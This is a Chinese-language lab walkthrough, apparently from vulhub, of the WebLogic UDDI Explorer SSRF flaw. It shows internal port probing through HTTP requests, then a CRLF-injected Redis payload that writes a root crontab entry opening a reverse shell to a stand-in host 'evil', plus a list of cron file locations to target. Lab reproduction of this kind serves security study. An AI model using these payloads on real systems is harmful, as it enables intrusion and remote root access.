





# Weblogic UDDI Explorer SSRF 漏洞

Oracle WebLogic Server 是一个基于 Java 的企业级应用服务器。在 WebLogic 的 UDDI Explorer 应用中存在一个服务器端请求伪造（SSRF）漏洞，攻击者可以通过该漏洞发送任意 HTTP 请求，进而可能导致内网探测或攻击内网中的脆弱服务，如 Redis 等。

参考链接：

- <https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf>
- <https://foxglovesecurity.com/2015/11/06/what-is-server-side-request-forgery-ssrf/>
- <https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf>

## 环境搭建

执行如下命令启动 WebLogic 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:7001/uddiexplorer/` 即可查看 UDDI Explorer 应用，无需登录认证。

## 漏洞复现

SSRF 漏洞存在于 SearchPublicRegistries.jsp 页面中。我们可以使用 Burp Suite 向 `http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp` 发送请求来测试该漏洞。

首先，我们尝试访问一个内部服务，如 `http://127.0.0.1:7001`：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

```

当访问一个可用端口时，会收到一个带有状态码的错误响应。如果访问的是非 HTTP 协议，则会返回"did not have a valid SOAP content-type"错误。



当访问一个不存在的端口时，响应会显示"could not connect over HTTP to server"。



通过分析这些不同的错误信息，我们可以有效地探测内网状态。

### Redis 反弹 Shell 利用

WebLogic 的 SSRF 漏洞有一个显著特点：尽管是 GET 请求，我们可以通过传入 `%0a%0d` 来注入换行符。由于 Redis 等服务使用换行符来分隔命令，我们可以利用这一特性来攻击内网中的 Redis 服务器。

首先，我们扫描内网中的 Redis 服务器（Docker 网络通常使用 172.*网段），发现 `172.18.0.2:6379` 可以访问：



然后，我们可以发送三条 Redis 命令，将 shell 脚本写入 `/etc/crontab`：

```
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/evil/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

对这些命令进行 URL 编码：

```
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```

通过 SSRF 漏洞发送编码后的 payload：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

```



成功获得反弹 shell：



需要注意的是，可以利用的 cron 位置有以下几处：

- `/etc/crontab`（系统默认定时任务文件）
- `/etc/cron.d/*`（系统定时任务目录）
- `/var/spool/cron/root`（CentOS 系统下 root 用户的定时任务文件）
- `/var/spool/cron/crontabs/root`（Debian 系统下 root 用户的定时任务文件）
